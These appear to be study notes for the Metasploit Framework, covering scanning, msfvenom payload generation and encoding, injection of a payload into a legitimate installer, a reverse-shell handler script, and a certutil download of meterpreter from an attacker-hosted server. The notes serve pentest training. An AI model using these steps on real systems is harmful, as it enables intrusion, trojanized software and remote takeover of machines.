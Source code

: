 # Metasploit Framework

### MSFDB
- sudo systemctl enable postgresql //enacle postgresql on startup
- sudo systemctl start postgresql //start the service
- sudo systemctl status postgresql //check postgresql status
- sudo msfdb //start msfdb
- sudo msfdb init //initialise db

### MSFConsole
- search -h to learn about search options
- Importing nmap scans: `db-import <path of nmap xml output>`
- To perfoem a scan on internal network through the initial victim, run `run autoroute -s <IP>` in meterpreter


### MySQL with MSF
- useful modules: version, schemadum, login, file_enum
- modules under /admin/ will need cred to use: mysql_enum, mysql_sql
- TIP: can use `loot`, and `creds` to see credentials etc

### Nessus with MSF
- Do the scan with nessus and export it in XML `export nessus`
- Load it in with `db_import <location of nessus scan>`
- use the `vulns` command to see possible vulnerabilies

### WMAP (web app) vuln scan with MSF
- Comes with msf so just type: `load wmap` and to see all the commands available we can do `wmap_` and press tab
- To show the current modules being used to scan the target we say: `wmap_run -t`
- use `wmap_vulns -l` to list all vulns after a scan


### MSFVenom
- To get help, we can say: `msfvenom --list <the option you need help>` eg:`msfvenom --list formats`, `msfvenom --list payloads`
- Sample Msfvenom command: `msfvenom -p <payload type> LHOST=<our IP> LPORT=<our port> -f <file format> > <Location of the output>`

### Encoding
- useful encoders are shikata_ga_nai and cmd/powershell_base64
- To list out encoders `msfvenom --list encoders`
- Sample command: `msfvenom -p <payload> LHOST=<IP> LPORT=<IP> -e x86/shikata_ga_nai -f exe > <location>`
- For iteration, we can specify by using `-i 10` or `iterations 10`

### Injecting Payloads into PE (-x, -k)
- sample command: `msfvenom -p <payload> LHOST=<IP> LPORT=<IP> -e x86/shikata_ga_nai -f exe -x <Path to the exe eg: ~/Downloads/wrar602.exe> > <location>`

### MSF Resource Scripts for automation (like bash scripts)
- All resource scripts are located at: /usr/share/metasploit-framework/scripts/resource/ 
- Example of a simple script below:
```handler.rc
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.10.10.5
set LPORT 1234
run
```
- To run the above script use: msfconsole -r handler.rc //-r flag for resource script
- Another example below
```
use auxiliary/scanner/portscan/tcp
set RHOSTS 10.10.10.7
run
```
- Another example below
```db_status.rc
db_status
workspace
workspace -a Test
```
- If you are already inside msfconsole, you can load up a resource script by: `resource ~/usr/share/metasploit-framework/scripts/resource/<scriptName>`
- To export a script from inside the console, do your actions, and terminate after typing run, and type:`makerc <$PATH/ScriptName>`

## Exploitation

### HTTP file server
- difference of http file server and typical http server is that it's just use to file share and no other usage
- popular servers include: Rejetto HFS
- Rejetto V2.3 is vuln to RCE attack

**Nice practical situation encountered**
Scenario: when using the tomcat_jsp_upload_bypass module, a cmd was popped in msf, but we want a meterpreter for all the good stuff, so what can we do now? We can 
use `msfvnom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=1234 -f exe > meterpreter.exe` to gen a payload, host a simple python server on our(attacker) 
machine using `sudo python -m SimpleHTTPServer 80` and use the cmd to `certutil -urlcache -f http://<IP>/meterpreter.exe meterpreter.exe, then we can open a handler
and catch the shell.








